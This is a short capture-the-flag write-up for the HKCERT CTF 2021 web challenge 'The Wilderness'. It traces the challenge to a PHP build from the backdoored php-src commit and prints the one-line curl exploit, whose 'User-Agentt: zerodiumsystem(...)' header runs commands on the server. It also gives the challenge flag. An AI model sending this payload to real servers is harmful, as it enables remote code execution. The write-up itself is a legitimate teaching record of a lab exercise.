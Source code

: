 ## The Wilderness (web 100 pts)  
### Challenge:  
> 就在回望一刻總有哀 世界已不再 誰偏偏一再 等待 到終於不記得等待

Mystiz likes PHP most. He has been programming in PHP at the time PHP 5 was released. Time flies and here comes PHP 8. He decided to craft a Docker image as a sandbox... What can go wrong?

<http://chalp.hkcert21.pwnable.hk:28364/>
### Attachment:
- [sea-of-thorns_e045a87b1909724e7292510354cc1f3b.zip](https://github.com/6cyril/ctf-writeups/blob/master/HKCERT%20CTF%202021/files/sea-of-thorns_e045a87b1909724e7292510354cc1f3b.zip?raw=true)
### Solution:  
* Check the Dockerfile the challenge is built on a specific PHP version
```
RUN cd /tmp && wget https://github.com/php/php-src/archive/c730aa26bd52829a49f2ad284b181b7e82a68d7d.zip \
            && unzip c730aa26bd52829a49f2ad284b181b7e82a68d7d.zip \
            && cd php-src-* && ./buildconf && ./configure --with-zlib && make -j4
```
* Googling it shows that it's a PHP version affected by recent supply chain attack and has a backdoor  
* Find link with instruction to exploit it [here](https://www.qiuye.ink/2021/04/03/php%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/)
* Run command `curl -H 'User-Agentt: zerodiumsystem("cat index.php");' http://chalp.hkcert21.pwnable.hk:28364/`
  
Flag: `hkcert21{vu1n3r1b1li7ie5_m1gh7_c0m3_fr0m_7h3_5upp1y_ch41n}`  
  
